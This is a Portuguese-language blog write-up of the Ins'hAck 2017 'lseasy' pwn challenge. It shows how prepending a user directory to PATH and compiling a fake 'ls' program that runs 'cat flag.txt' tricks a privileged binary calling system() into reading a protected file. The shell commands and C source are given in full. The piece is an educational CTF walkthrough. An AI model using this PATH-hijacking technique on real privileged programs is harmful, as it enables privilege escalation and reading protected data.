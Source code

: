 ```yaml
---
layout: post
title: PWN1 - Explorando system() call [INS'hAck 2017] Write-up
date: 2017-04-18 19:47
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Sem Categoria, exploits]
---
```

O <a href="https://ctftime.org/event/444">Ins'hAck</a> foi um ctf online que ocorreu do dia 6 de abril ao dia 9. Teve uns desafios bem interessantes e foi bem organizado pelo time <a href="https://ctftime.org/team/11869">InSecurity</a>.

Este write-up é referente ao primeiro nível de pwn e foi simples caso você já soubesse o caminho. Mas, sendo o noob que sou, demorei um pouco para sacar onde estava a falha e quando resolvi o chall fiquei feliz em ter aprendido algo novo.

A descrição era a seguinte:

<blockquote>My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh you_ssh_user@pwn1.ctf.insecurity-insa.fr

Note: Please see your profile to know you SSH creds.</blockquote>

Que em português seria:

<blockquote>Meu chuveiro não quer me dar água quente :/ talvez seja um hacker? :0 Você pode ajudar?</blockquote>

E logo abaixo as instruções para conectar ao ssh do ctf que ficou offline desde o fim da competição.

Mas não se desespere. Ainda é possível tentar resolver pegando <a href="https://github.com/HugoDelval/inshack-2017/raw/master/challenges/pwn/lseasy-75/public-files/lseasy.zip">neste link</a> uma cópia do desafio.

Dentro do arquivo zipado há um elf executável chamado <strong><em>lseasy</em></strong> acompanhado do seu código fonte <em><strong>vuln.c</strong></em>. Estes dois arquivos podiam ser encontrados dentro do servidor junto com o arquivo flag.txt. Obviamente este arquivo não tinha permissões de leitura para meu usuário atual, mas podia ser lido pelo usuário que <strong><em>lseasy</em></strong> rodava. É o tipo de coisa padrão nesses desafios xpl/pwn. O objetivo é explorar o desafio e seus privilégios para, de alguma forma, ler o arquivo da flag.

Ao se executar o binário pela primeira vez, se percebe que ele apenas lista os arquivos do diretório atual. Uma olhada no código fonte<strong><em> </em></strong>confirma que essa é sua única função:

<script src="https://gist.github.com/anonymous/537b9729bb928e98d5af400aae650168.js"></script>

Não há muito o que explicar. Perdi tempo tentando variadas maneiras ler a flag. Logo estava lendo a <a href="http://man7.org/linux/man-pages/man3/system.3.html">manpage da função system</a>. Parecia ser a única coisa restante a ser explorada. Na seção de notas encontrei um aviso que dizia para não usa-la em programas SUID porque valores das variáveis de ambiente podiam ser usados para subverter o sistema. Ok, é exatamente o objetivo. Mas a nota não dizia como fazer isso.

Pesquisei por "exploit system call" no google e encontrei um<a href="https://www.go4expert.com/articles/exploit-c-t24920/"> tutorial mastigado</a> de como explorar um programa de exemplo exatamente igual ao do chall.

O segredo é que system vai procurar pelo binário nos caminhos contidos na <a href="https://www.vivaolinux.com.br/artigo/O-que-e-PATH-como-funciona-e-como-trabalhar-com-ele">variável de sistema <strong>PATH</strong></a>. E, como nada impede a alteração desta variável, é possível adicionar um caminho arbitrário.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ PATH=$HOME/Docs/ctf/inshack2017/pwn1:$PATH
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ echo $PATH
/home/brenno/Docs/ctf/inshack2017/pwn1:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

O primeiro comando printa minha variável PATH atual, no segundo eu adiciono o caminho "$HOME/Docs/ctf/inshack2017/pwn1" no ínicio da varíavel de sistema e o terceiro printa o conteúdo alterado.

Agora, sempre que system for procurar o binário de ls, vai olhar primeiro dentro de "$HOME/Docs/ctf/inshack2017/pwn1". E é onde criei um ls mais coerente com meu objetivo.

```
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ cat ls.c
#include stdio.h

int main() {
system(cat flag.txt);
return 0;
}
^C
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ gcc ls.c -o ls
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$ ./lseasy
The content of the current folder is :
INSA{SySt3m_1s_3v1l_-}
brenno@budweiser:~/Docs/ctf/inshack2017/pwn1$
```

Na primeira parte criei um simples programa em C usando a mesma função system para executar o comando <strong>cat flag.txt</strong>. Então o compilei dando o nome de ls e, ao executar o binário lseasy pode-se ver que ao invés de imprimir o conteúdo da pasta, ele imprime o conteúdo de flag.txt.
